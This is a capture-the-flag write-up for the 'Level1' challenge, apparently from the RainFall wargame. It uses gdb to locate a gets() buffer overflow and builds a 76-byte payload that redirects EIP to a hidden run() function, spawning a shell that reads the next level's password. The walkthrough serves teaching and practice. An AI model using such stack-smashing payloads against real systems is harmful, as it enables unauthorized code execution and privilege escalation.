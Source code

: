 # Level1

Using gdb:

	(gdb) disas main
	Dump of assembler code for function main:
	   0x08048480 <+0>:	push   %ebp
	   0x08048481 <+1>:	mov    %esp,%ebp
	   0x08048483 <+3>:	and    $0xfffffff0,%esp
	   0x08048486 <+6>:	sub    $0x50,%esp
	   0x08048489 <+9>:	lea    0x10(%esp),%eax
	   0x0804848d <+13>:	mov    %eax,(%esp)
	   0x08048490 <+16>:	call   0x8048340 <gets@plt>
	   0x08048495 <+21>:	leave  
	   0x08048496 <+22>:	ret    
	End of assembler dump.

We can also find a function in the source code which is never used :

	(gdb) disas run
	Dump of assembler code for function run:
	   0x08048444 <+0>:	push   %ebp
	   0x08048445 <+1>:	mov    %esp,%ebp
	   0x08048447 <+3>:	sub    $0x18,%esp
	   0x0804844a <+6>:	mov    0x80497c0,%eax
	   0x0804844f <+11>:	mov    %eax,%edx
	   0x08048451 <+13>:	mov    $0x8048570,%eax
	   0x08048456 <+18>:	mov    %edx,0xc(%esp)
	   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
	   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
	   0x0804846a <+38>:	mov    %eax,(%esp)
	   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
	   0x08048472 <+46>:	movl   $0x8048584,(%esp)
	   0x08048479 <+53>:	call   0x8048360 <system@plt>
	   0x0804847e <+58>:	leave  
	   0x0804847f <+59>:	ret    
	End of assembler dump.

This run() function is able to start a shell. The goal is to call this function within the main.
The gets function in the main is prone to buffer overflow attacks. Since we know the buffer size, we can start to craft a payload that will overwrite the EIP register (instruction pointer), to pass it the address of run. We can see its address is 0x08048444.

                        +---------------+ Highest Address 0xffffffff
                        | cmd line args |
                        | env Variable  |
                        +---------------+
                        |     STACK     |
                        +--+------------+
                        |  |            |
                        |  |            |
                        |  v         ^  |
                        |            |  |
                        |            |  |
                        +------------+--+
                        |     HEAP      |
                        +---------------+
                        | Uninitialized |
                        |   Data(BSS)   |
                        +---------------+
                        |  Initialized  |
                        |     Data      |
                        +---------------+
                        |   Read Only   |
                        |     data      |
                        |       +       |
                        |     code      |
                        +---------------+ Lowest Address 0X00000000



                       +   Previous function  +
                       |     Stack frame      +
                       |                      |
                       +----------------------+ <--+ previous function stack frame end here
                       |Space for return value|
                       +----------------------+
                       |Arguments for function|
                       +----------------------+
                       |    return address    |
                       +----------------------+
                       |     saved $ebp       |
                       +----------------------+
	               |         $eip         |
	               +----------------------+
                       |                      | <--+  padding done by compilers
                       +------------+---------+
                       |         |4 |         |
                       |         |3 |         |
                       |         |2 | ^       |
                       |         |1 | |       |
                       |      ch |0 | |       |
                       +------------+-+-------+
                       |                      |
                       |     unused space     |
                       +                      +

[source](https://github.com/rosehgal/BinExp/tree/master)

Let's first check the maximum size of the buffer: 

	$ python -c 'print("A"*70 + "BCDEFGHIJK")' > payload

Looking at the registers, we see :

	(gdb) r < payload
	Starting program: /home/user/level1/level1 < payload

	Program received signal SIGSEGV, Segmentation fault.
	0x4b4a4948 in ?? ()
	(gdb) info registers
	[...]
	esp            0xbffff740	0xbffff740
	ebp            0x47464544	0x47464544
	esi            0x0	0
	edi            0x0	0
	eip            0x4b4a4948	0x4b4a4948
	[...]

The value of EBP is 0x47464544, corresponding to the following ascii characters : G(47), F(46), E(45), D(44). 
The value of EIP is 0x4b4a4948, corresponding to the following ascii characters : H(48), I(49), J(4a), K(4b)
It makes sense since EIP typically follows EBP in the stack.
It means we can overwrite the EIP register using the 77-80th characters.
If we pass the address of the run function to EIP, it will be executed as the next instruction.

	python -c 'print "A"*76+"\x44\x84\x04\x08"' > payload // address in little endian order

By passing this payload as argument, the binary will start a shell. We also need to keep stdin open using 'cat -'.

	level1@RainFall:~$ cat payload - | ./level1 
	Good... Wait what?
	id
	uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
	cd ../level2
	cat .pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

